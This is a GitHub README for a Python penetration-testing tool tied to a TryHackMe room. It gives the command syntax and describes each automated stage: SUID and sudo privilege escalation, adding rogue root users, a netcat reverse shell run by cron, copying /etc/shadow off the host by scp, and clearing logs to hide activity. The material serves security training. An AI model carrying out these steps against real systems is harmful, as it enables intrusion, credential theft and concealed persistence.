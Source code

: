 ![terminator-logo](https://github.com/suffs811/writeups/blob/main/terminator-img/small-terminator.png)
# the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

>check out the terminator's TryHackMe [room](https://tryhackme.com/jr/theterminator) to learn how to use this powerful tool!

>*feel free to use and test the terminator and share your suggestions in the [Discussions](https://github.com/suffs811/the-terminator/discussions/1)*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- reqs.py - script for downloading necessary dependencies (nmap, gobuster, nikto, enum4linux, python-docx, etc.)
- requirements.txt - text file listing dependencies
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
## 1) before you begin

run the following command to download the required dependencies

`python3 reqs.py`

note: if you need to, you can download them manually with:

`python3 -m pip install -r requirements.txt` OR `pip install -r requirements.txt`

## 2) clone the repository to your computer

- `git clone https://github.com/suffs811/the-terminator.git`
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

## 3) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- `python3 terminator.py enum -t <target_ip_to_enumerate>`
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- `python3 terminator.py priv -u <new_root_username> -p <new_root_passwd>`

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- `python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>`
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- `python3 terminator.py report -o <output_file_name>`

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and search web page source code for 'username' and 'password'
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation (powered by GTFObins)
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen (the terminator can exploit over 30 different commands!)
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen (over 30 SUID files can be used by the terminator!)
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary (the terminator looks for 57 different commands to exploit!)
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions are true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every minute

*if cronjob is not working, you might need to run 'crontab -e' then just add a space under the cronjob, and exit the file with 'Ctrl+x', 'y', 'enter'*

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (persistence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

*NOTE: the terminator is only intended to be used for personal, legal activities. DO NOT use the terminator for illegal hacking activities. I am not liable for any damages caused by the unlawful use of this tool by another person.*

-+- Leave a comment if you have any questions! -+-

